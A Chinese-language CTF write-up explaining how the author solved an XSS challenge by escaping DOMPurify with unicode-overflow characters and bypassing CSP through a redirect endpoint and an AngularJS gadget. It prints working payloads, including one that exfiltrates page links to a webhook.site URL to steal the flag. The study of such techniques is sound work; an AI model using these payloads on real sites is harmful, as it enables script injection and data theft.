 # 从一道XSS题学习CSP绕过

  
  
&lt;!--more--&gt;  
## 0x00 解题记录  
`/create`可以创建笔记存入到数据库，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102148138.png)
`/note`可以展示笔记  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102149796.png)
但在`/create`处存在`DOMPurify`来过滤`xss`，由于是最新版无法绕过，  
需要注意到在`/note`笔记展示的地方，是利用了`ascii`来处理了字符串，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102151665.png)
这里会涉及到一个`unicode`溢出的安全问题  
举一个🌰  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102158214.png)
利用这个原理，选两个`unicode`字符来逃逸`&lt;&gt;`  
`氼`、`夾`  
来试一下，正常的解析了`&lt;&gt;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102203883.png)
构造一个payload  
```javascript  
氼script src=&#34;https://www.example.com&#34;夾alert(1);//氼/script 夾  
```  
正常触发了CSP  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102208902.png)
现在就需要绕过CSP了，利用`/redirect`接口绕过CSP即可  
```javascript  
  res.setHeader(  
    &#34;Content-Security-Policy&#34;,  
    `script-src &#39;self&#39; &#39;nonce-${nonce}&#39; &#39;unsafe-eval&#39; https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.1/jquery.min.js; base-uri &#39;none&#39;; object-src &#39;none&#39;;`  
  );  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102220072.png)
还需要利用到`angular`组件，原因如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102348192.png)
在重定向只会忽略路径部分，而不会忽略URL，而CSP中又恰巧信任了`https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.1/jquery.min.js`  
```javascript  
氼script src=&#34;http://localhost:3000/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js&#34; 夾  //氼/script 夾  
&lt;div data-ng-app&gt; {{&#39;a&#39;.constructor.prototype.charAt=[].join;$eval(&#39;x=1} } };alert(1);//&#39;);}} &lt;/div&gt;  
```  
（这里在本地搭建了一个作为测试）  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102359533.png)
根据`bot.ts`来盗取`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502110001119.png)
payload  
```javascript  
氼script src=&#34;http://localhost:3000/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js&#34; 夾  //氼/script 夾  
&lt;div data-ng-app&gt;{{&#39;a&#39;.constructor.prototype.charAt=[].join;$eval(&#39;x=1} } };  
    fetch(`http://localhost:3000/`).then(res=&gt;res.text()).then(data=&gt;{ const parser = new DOMParser();  
    const doc = parser.parseFromString(data, &#34;text/html&#34;);  
    const links = Array.from(doc.querySelectorAll(&#34;a&#34;)).map(a =&gt; a.href);  
    const encodedLinks = btoa(unescape(encodeURIComponent(JSON.stringify(links))));  
    return fetch(&#34;https://webhook.site/5b154691-3fdb-46b8-980b-735e19b081f2?ans=&#34; &#43; encodedLinks, { method: &#34;GET&#34;, mode: &#34;no-cors&#34; })});//&#39;);}}&lt;/div&gt;  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502110004738.png)
## Reference  
[https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows](https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows &#34;https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows&#34;)https://www.w3.org/TR/CSP3/#source-list-paths-and-redirects  
https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques  
https://csp-evaluator.withgoogle.com/  
https://github.com/Mehdi0x90/Web_Hacking/blob/main/CSP%20Bypass.md  
  
## 0x00000  
弟弟新建了一个交流群，欢迎有兴趣的师傅一起来讨论有趣的Web题
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502101949106.jpg)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E4%BB%8E%E4%B8%80%E9%81%93xss%E9%A2%98%E5%AD%A6%E4%B9%A0csp%E7%BB%95%E8%BF%87/  

